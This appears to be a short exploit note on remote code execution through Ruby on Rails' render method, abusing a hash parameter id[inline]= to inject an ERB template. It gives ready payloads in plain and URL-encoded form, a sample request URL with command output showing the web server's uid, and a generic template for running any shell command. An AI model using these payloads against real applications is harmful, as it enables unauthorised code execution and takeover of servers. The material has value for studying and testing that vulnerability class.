 This issue comes from the usage of the render method on user-supplied data. 
The render method also allows developers to render plain text (plaintext) and even inline code (inline).
[documentation](https://guides.rubyonrails.org/layouts_and_rendering.html)

Instead of sending a simple parameter id=test, you can build your request to send a hash: id[inline]=RUBYTEMPLATE. To gain code execution, you just need to find the right value for RUBYTEMPLATE to exec commands. Here you will need to be extra careful with the encoding to get it to work. 

<hr >

This will leverage the url paramater search in the url  http://urlhere.com/pages?id=test


id[inline]=<%=`id`%> 
id[inline]=%3c%25%3d%60%69%64%60%25%3e%20
http://urlhere.com/pages?id[inline]=%3c%25%3d%60%69%64%60%25%3e%20
== >> uid=1000(webrick) gid=1000(webrick) groups=1000(webrick) 


id[inline]=%3c%25%3d%60 command here %60%25%3e%20
id[inline]=<%=` command here `%> 

http://urlhere.com/pages?id[inline]=%3c%25%3d%60 command here %60%25%3e%20
